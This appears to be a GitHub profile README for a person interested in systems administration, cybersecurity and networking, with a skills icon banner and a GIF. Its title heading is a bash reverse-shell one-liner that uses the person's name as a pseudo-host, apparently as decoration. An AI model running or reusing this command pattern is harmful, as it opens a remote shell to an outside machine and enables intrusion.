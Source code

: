  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<table><tr><td valign="top" width="50%">

- 💻 Systems Administration

- 🔐 Cybersecurity

- 🌐 Computer Network Systems




</td><td valign="top" width="50%">
<div align="center">
<img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" align="center" style="width: 100%" />
</div>

</td></tr></table>  
<br/>

<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,kubernetes,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





